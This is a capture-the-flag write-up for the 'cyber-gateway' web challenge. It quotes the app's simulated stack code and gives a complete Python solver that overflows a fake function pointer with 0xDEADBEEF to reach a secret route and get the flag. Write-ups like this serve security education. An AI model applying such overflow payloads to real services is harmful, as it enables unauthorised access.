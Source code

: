 # cyber-gateway

## Description

```
Wait, Neo is now is Cyberpunk? Is there a Morpheus as well? And what will he be offering Neo? This world is very 0x41414141.
```

## Categories

- `web`

## Provided Files

- `cyber-gateway.zip`

## Solve Process

Simply put, the app provided expects a function address to execute.

```py
# --- snip --- #
function_map = {
    SECRET_ROUTE: secret_gateway_route,
    CYBER_ROUTE: cyber_gateway_route
}
# --- snip --- #
def index():
    if request.method == "GET":
        return (
            "Welcome to our super secure cyber gateway service!<br>"
            "Send a POST request with data to push onto our stack.<br>"
        )

    elif request.method == "POST":
        user_data = request.get_data()
        if not user_data:
            abort(400, "No input data provided.")

        if b"A" in user_data:
            abort(400, "Hacking detected")

        for char in user_data:
            if chr(char) in printable:
                abort(400, "Invalid gateway request")
        
        stack_size = 32
        fp_size = 4  
        total_size = stack_size + fp_size

        stack_memory = bytearray(total_size)

        stack_memory[stack_size : stack_size + fp_size] = CYBER_ROUTE.to_bytes(4, "little")

        for i, b in enumerate(user_data):
            if i < total_size:
                stack_memory[i] = b
            else:
                break

        fp = int.from_bytes(stack_memory[stack_size : stack_size + fp_size], "little")
        if fp in function_map:
            result = function_map[fp]()
        else:
            result = f"Segfault! Invalid function pointer: {fp}"

        return result
# --- snip --- #
```

The implementation of the `stack_memory` allows us to overflow it with other bytes while bypassing the "security check" (`if b"A" in user_data`) using other byte values.

```py
import requests

SECRET_ROUTE    = 0xDEADBEEF
CYBER_ROUTE     = 0x41414141

def secret_gateway_route():
    return 0

def cyber_gateway_route():
    return 0

function_map = {
    SECRET_ROUTE: secret_gateway_route,
    CYBER_ROUTE: cyber_gateway_route
}

CHALLENGE_HOST = "2aoh326wa2ifiea9.dyn.acsc.land"
REQUEST_PAYLOAD = b'\x11'*32 + SECRET_ROUTE.to_bytes(4, 'little')

stack_size = 32
fp_size = 4  
total_size = stack_size + fp_size
stack_memory = bytearray(total_size)
stack_memory[stack_size : stack_size + fp_size] = CYBER_ROUTE.to_bytes(4, "little")

for i, b in enumerate(REQUEST_PAYLOAD):
    if i < total_size:
        stack_memory[i] = b
    else:
        break

fp = int.from_bytes(stack_memory[stack_size : stack_size + fp_size], "little")

print(f"[+] Payload is: {REQUEST_PAYLOAD}")
print(f"[+] Payload produces function pointer: {fp} -> needed: {SECRET_ROUTE}")
print("[+] Sending payload")
RESPONE = requests.post(url=f"https://{CHALLENGE_HOST}/", data=REQUEST_PAYLOAD, allow_redirects=True)
if RESPONE.status_code == 200:
    print("[+] Success")
    print(f"[+] Flag: {RESPONE.text}")
else:
    print(f"[-] Payload returned with status: {RESPONE.status_code}")
    print(f"[-] Error: {RESPONE.text}")
```

Solver script is a bit more informative than needed but pretty self explanatory, another flag for us.
